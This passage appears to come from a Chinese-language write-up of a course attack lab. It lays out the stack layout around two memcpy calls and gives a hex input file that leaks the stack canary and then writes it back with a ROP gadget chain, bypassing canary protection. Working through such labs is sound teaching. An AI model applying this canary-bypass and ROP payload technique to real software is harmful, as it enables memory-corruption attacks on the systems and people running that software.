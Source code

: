 进一步阅读代码，我们可以得到第一次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

-   （+0x190）`%rbp`，栈底
-   （+0x188）金丝雀值
-   （+0x108）`%rsi`，源地址
-   （+0x100）`%rdx`，复制的长度
-   （+0x000）`%rdi`，`%rsp`，栈顶、目标地址

类似地，得到第二次 `memcpy` 时，关键的几个寄存器和值各自的位置（从高地址向低地址排列，左侧偏移值相对栈顶而言）：

-   （+0x190）`%rbp`，栈底
-   （+0x188）金丝雀值
-   （+0x108）`%rdi`，目标地址
-   （+0x104）`%rdx`，复制的长度
-   （+0x000）`%rsi`，`%rsp`，栈顶，源地址

于是我们可以开始构造输入值 `p6.txt`，通过控制两次复制的长度，以实现第一次复制时将金丝雀值复制下来，同时在第二次复制时，将金丝雀值连同我们注入的 ROP 攻击代码复制上去，从而实现绕过金丝雀值的保护：

```asm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
8d 22 40 00 00 00 00 00 // phase5 的攻击代码起始地址
a4 21 40 00 00 00 00 00
bc 21 40 00 00 00 00 00
48 00 00 00 00 00 00 00
ad 22 40 00 00 00 00 00
ee 22 40 00 00 00 00 00
81 22 40 00 00 00 00 00
f9 21 40 00 00 00 00 00
a4 21 40 00 00 00 00 00
cd 1f 40 00 00 00 00 00
31 31 61 36 37 36 31 30
00 00 00 00 00 00 00 00 // phase5 的攻击代码结束地址
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
88 00 00 00 00 01 00 00 // 覆写 0x88 和 0x100 两个局部变量
```
